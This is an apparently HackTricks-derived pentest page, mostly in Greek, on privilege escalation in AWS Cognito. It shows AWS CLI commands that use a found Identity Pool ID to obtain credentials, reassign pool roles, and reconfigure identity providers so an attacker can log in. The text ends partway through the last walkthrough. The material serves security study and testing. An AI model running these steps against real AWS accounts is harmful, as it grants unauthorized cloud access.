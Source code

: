 # AWS - Cognito Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Cognito

Για περισσότερες πληροφορίες σχετικά με το Cognito δείτε:

{{#ref}}
../../aws-services/aws-cognito-enum/
{{#endref}}

### Συλλογή credentials από Identity Pool

Εφόσον το Cognito μπορεί να εκδώσει **IAM role credentials** τόσο σε **authenticated** όσο και σε **unauthenticated** **users**, αν εντοπίσετε το **Identity Pool ID** μιας εφαρμογής (συνήθως είναι hardcoded σε αυτή) μπορείτε να αποκτήσετε νέα credentials και επομένως privesc (μέσα σε έναν AWS account όπου πιθανόν να μην είχατε προηγουμένως κανένα credential).

For more information [**check this page**](../../aws-unauthenticated-enum-access/index.html#cognito).

**Potential Impact:** Άμεση privesc στο services role attached στους unauth users (και πιθανώς σε αυτό που είναι attached στους auth users).

### `cognito-identity:SetIdentityPoolRoles`, `iam:PassRole`

Με αυτή την άδεια μπορείτε να **παραχωρήσετε οποιοδήποτε cognito role** στους authenticated/unauthenticated users της cognito app.
```bash
aws cognito-identity set-identity-pool-roles \
--identity-pool-id <identity_pool_id> \
--roles unauthenticated=<role ARN>

# Get credentials
## Get one ID
aws cognito-identity get-id --identity-pool-id "eu-west-2:38b294756-2578-8246-9074-5367fc9f5367"
## Get creds for that id
aws cognito-identity get-credentials-for-identity --identity-id "eu-west-2:195f9c73-4789-4bb4-4376-99819b6928374"
```
Εάν η εφαρμογή cognito **δεν έχει ενεργοποιημένους ανώνυμους χρήστες** μπορεί επίσης να χρειαστείς την άδεια `cognito-identity:UpdateIdentityPool` για να την ενεργοποιήσεις.

**Πιθανός Αντίκτυπος:** Άμεσο privesc σε οποιονδήποτε cognito ρόλο.

### `cognito-identity:update-identity-pool`

Ένας επιτιθέμενος με αυτήν την άδεια θα μπορούσε, για παράδειγμα, να ρυθμίσει ένα Cognito User Pool υπό τον έλεγχό του ή οποιονδήποτε other identity provider όπου μπορεί να κάνει login ως **τρόπος πρόσβασης σε αυτό το Cognito Identity Pool**. Στη συνέχεια, απλώς το **login** σε αυτόν τον identity provider θα **του επιτρέψει να αποκτήσει πρόσβαση στον ρυθμισμένο authenticated role στο Identity Pool**.
```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
--identity-pool-id <value> \
--identity-pool-name <value> \
[--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
--cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:
```